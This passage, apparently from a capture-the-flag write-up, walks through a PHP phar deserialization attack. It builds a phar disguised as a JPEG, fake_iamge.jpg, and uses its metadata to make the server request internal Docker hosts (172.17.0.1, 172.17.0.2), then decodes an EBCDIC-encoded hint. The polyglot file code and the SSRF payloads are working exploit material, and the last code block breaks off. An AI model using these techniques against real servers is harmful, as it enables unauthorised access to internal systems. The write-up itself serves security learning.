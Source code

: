 ```
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");

class MainClass {}
$object = new MainClass;
$object->url = 'http://172.17.0.1';
$phar->setMetadata($object);
$phar->stopBuffering();

rename("test.phar","fake_iamge.jpg");
?>
```

Give us back the same web app

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/52182117-0aeb2280-27fa-11e9-84c3-525894f28f23.png"></p>

So 172.17.0.1 == Web task,need to dig more and find something else

moved to 172.17.0.2 give us new hint for the next step

Change url :

```
$object->url = 'http://172.17.0.2';
```

Which give us something not printable using code page charset :( , browser can't render it back :(

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/52182258-bc3e8800-27fb-11e9-98f3-a1d408ef62ef.png"></p>

```
File is not an image. http://172.17.0.2b'\xc8\x85\x93\x93\x96@a\x86\x85\xa3\x83\x88\xa1l\xad\xbd_|]M@@\x94\x85'
```

We need to brute force all possible charset and get the result , we get some clear text using CPXXX encoding charset

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/52182375-c01eda00-27fc-11e9-95f8-328111e8b98f.png"></p>

Its look like **Hello /fetch~'string-garbage' me**

So until here we need just to try using one of this result (ecode garbage stuff) and send SSRF request again 

lets try with CP1047 **Hello /fetch~%[]^@)(  me**, urlencode this **/%66%65%74%63%68%7e%25%5b%5d%5e%40%29%28** (else we get Bad request from server)

```
<?php
$jpeg_header_size =
"\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
"\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
"\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
"\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
"\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
"\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
"\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
```